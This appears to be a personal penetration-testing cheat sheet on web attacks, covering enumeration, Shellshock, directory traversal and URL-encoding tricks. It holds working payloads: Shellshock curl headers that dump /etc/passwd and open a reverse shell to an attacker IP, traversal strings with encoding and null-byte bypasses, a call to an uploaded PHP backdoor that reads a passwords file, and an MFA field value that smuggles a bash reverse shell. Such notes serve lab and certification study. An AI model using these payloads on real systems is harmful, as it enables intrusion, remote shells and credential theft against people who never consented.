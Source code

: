 ### General Notes
- Check for robots.txt and sitemap.xml!
- Check for admin consoles for respective apps (MySQL, Tomcat, phpmyadmin, etc)
- Check source
	- Usernames, passwords, IPs of other machines?
	- Any fields to input data for SQLi or XSS 
	- If you find cgi-bin and are forbidden to access it, you can still brute force the cgi names to test for shellshock vuln
		- `gobuster dir -u http://$IP/ -e -s "200,204,403,500" -w /usr/share/seclists/Discovery/Web-Content/CGIs.txt`
		- `curl -H 'User-Agent: () { :; }; echo ; echo ; /bin/cat /etc/passwd' bash -s :'' http://[IP]/cgi-bin/user.sh`
		- `curl -H 'User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/[IP]/53 0>&1' http://$IP/cgi-bin/user.sh`
- Take note of framework and OS the webserver is using.  Might help you know what tools are installed on the system.
- Useful nmap scripts:
	- `http-shellshock --script-args uri=[PATHTOCGI]`
- php://filter and php://data wrappers are gonna be big!

### Directory Traversal
On Linux, we can use the `/etc/passwd` file to test directory traversal vulnerabilities. On Windows, we can use the file `C:\Windows\System32\drivers\etc\hosts` to test directory traversal vulnerabilities, which is readable by all local users. In Linux systems, a standard vector for directory traversal is to list the users of the system by displaying the contents of /etc/passwd. Check for private keys in their home directory, and use them to access the system via SSH.
- May need to access these files, `/etc/passwd` through Burp
- Try absolute path, like `/etc/passwd` as well as with traversal sequences like `../../`
- Consider that the `../` maybe be stripped: 
  `/image?filename=....//....//....//etc/passwd` (for if application strips path traversal sequences from the user-supplied filename before using it)
- Encoding:
	  - Without:`../../../etc/passwd`
	  - URL Encoded: `%2e%2e%2f%2e%2e%2f%2e%2e/etc/passwd`
	  - Double URL encoded: `%252e%252e%252f%252e%252e%252f%252e%252e/etc/passwd`
- If the start of the path is validated for user supplied input: 
	- `image?filename=/var/www/images/../../../../etc/passwd`
- If the application requires the filename to end with an expected file extension:
	- `/image?filename=../../../etc/passwd%00.jpg`
	- **The `%00` is a null byte which effectively terminates the file path before the extension. **

### Encoding Notes (not sure)
Examples:	`%20 = " "` and `%5C = "\"` and `%2e = "."` and `%2f = "/"`
- Note: Don't encode the "-" character in flags, and it looks like "/" characters also don't need to be encoded. 
- [URL Encoder](https://www.urlencoder.org/)
- EX: `curl http://$URL$.com/directory/uploads/backdoor.pHP?cmd=type%20..%5C..%5C..%5C..%5Cxampp%5Cpasswords.txt
	- where backdoor is the cmd script in the RFI section below that has already been uploaded to the Windows machine so that we can read the passwords.txt file.
	- When there is a username field, password field, and additional called MFA - From: "&&bash -c "bash -i >& /dev/tcp/192.168.45.179/7171 0>&1""
	- Becomes: `username=user1&password=pass1&ffa=testmfa"%26%26bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.45.179%2F7171%200%3E%261%22"`
	- So make sure to enclose command in `"&&$encondedCommand"` (incl. quotes).
